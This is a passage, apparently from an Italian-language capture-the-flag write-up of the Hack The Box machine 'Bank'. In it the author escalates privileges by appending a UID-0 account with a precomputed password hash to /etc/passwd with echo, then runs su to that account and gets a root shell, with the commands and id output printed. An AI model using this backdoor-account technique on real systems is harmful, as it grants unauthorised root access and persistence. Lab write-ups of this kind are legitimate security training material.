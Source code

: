 Aggiungerò una riga a /etc/passwd usando echo:

```bash
www-data@bank:/$ echo'xrabbit:$1$OaA56slc$3N.vHN3J/jwBhL2BfoFsB.:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

Con l'utente aggiunto, posso usare il comando su sull utente xrabbit, che restituisce la shell root:

```bash
www-data@bank:/var/htb/bin$ su - xrabbit
Password:
root@bank:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bank:~#
```
